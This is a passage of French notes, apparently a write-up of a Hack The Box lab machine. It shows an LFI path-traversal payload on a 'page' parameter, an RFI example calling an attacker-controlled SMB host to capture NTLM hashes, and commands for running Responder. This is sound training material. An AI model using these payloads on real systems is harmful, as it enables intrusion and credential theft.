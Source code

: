 ### Ip Machine:
---

```
10.129.196.199
```
quand on essaye d'entrer dans le site en utilisant l'IP, on est dirigé vers un serveur qui s'appelle : **unika.htb**. Mais pour pouvoir y acceder depuis le navigateur il faut d'abord éxecuter la commande :
```
echo "target-IP unika.htb" | sudo tee -a /etc/hosts
```


.Le nom du paramètre URL utilisé pour charger différentes versions linguistiques de la page Web est : **page**

### LFI(Local File Include):
---
vulnérabilité web qui permet à un attaquant d’inclure et de lire des fichiers locaux du serveur en manipulant des entrées non sécurisées. Elle est souvent exploitée lorsque des applications utilisent des fonctions comme **`include()`**, **`require()`**, ou leurs variantes en PHP, sans validation correcte des entrées utilisateur.

**-exemple d'exploitation LFI pour le paramètre *page***: ../../../../../../../../windows/system32/drivers/etc/hosts

![[Pasted image 20250215223157.png]]

### RFI(Remote File Inclusion):
---
permet à un attaquant d'inclure un fichier distant (hébergé sur un serveur contrôlé par l'attaquant) dans une application web vulnérable. Cela est souvent dû à une mauvaise validation d’un paramètre utilisé avec des fonctions comme **`include()`** ou **`require()`** en PHP.

**-Exemple :**//10.10.14.6/somefile

### NTLM(New Technology Lan Manager):
---
C'est un protocole d'authentification utilisé par Microsoft pour la connexion aux réseaux Windows. Il repose sur un mécanisme de challenge-réponse pour authentifier les utilisateurs sans transmettre directement leur mot de passe.

-**Vulnérable aux attaques Pass-the-Hash (PtH)**
-**Susceptible aux attaques de relai NTLM (NTLM Relay Attack)**
-**Moins sécurisé que Kerberos, qui est désormais préféré dans les environnements modernes**

-Il nous faut installer touts les utilité de **Responder dans la machine**:

```
git clone https://github.com/lgandx/Responder
```

-Vérifier si **Responder.conf** peut écouter des requêtes **SMB**:

![[Pasted image 20250215224113.png]]

-**-I**: flag utiliser dans **Responder** pour specifier une interface réseau

```
sudo python3 Responder.py -I tun1
```
